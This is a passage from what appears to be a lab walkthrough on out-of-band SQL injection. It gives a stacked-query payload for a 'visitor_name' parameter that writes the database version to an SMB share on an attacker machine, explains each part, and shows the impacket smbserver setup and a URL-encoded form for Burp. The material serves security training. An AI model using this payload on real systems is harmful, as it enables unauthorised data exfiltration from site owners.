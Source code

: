 
### Preparing the Payload

To exploit this vulnerability, the attacker crafts a payload to inject into the `visitor_name` parameter. The payload will be designed to execute an additional SQL query that writes the database version information to an external SMB share.\


```php
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```

Let's dissect the above payload:

* `1'`: Closes the original string within the SQL query.
* `;`: Ends the first SQL statement.
* `SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';`: Executes a new SQL statement that retrieves the database version and writes it to an SMB share at \\\ATTACKBOX\_IP\logs\out.txt.
* `--`: Comments the rest of the original SQL query to prevent syntax errors.

To utilise the payload, the attacker would visit the URL that creates a file in an external SMB share.&#x20;

To access the file, use the `ls /tmp` to see the file received in the `/tmp` directory as shown below: \


### Practice

**Kali #1**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support public share
```

**Kali #2**

```
mkdir share
```

Sent the request to Burp. Url encoded it.

**Burp**

```
#Original
1'; SELECT @@version INTO OUTFILE '\\\\$KALI\\public\\out.txt'; --

#URL Encoded
1'%3b+SELECT+%40%40version+INTO+OUTFILE+'\\\\$KALI\\public\\out.txt'%3b+-- 
```

<figure><img src="../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>
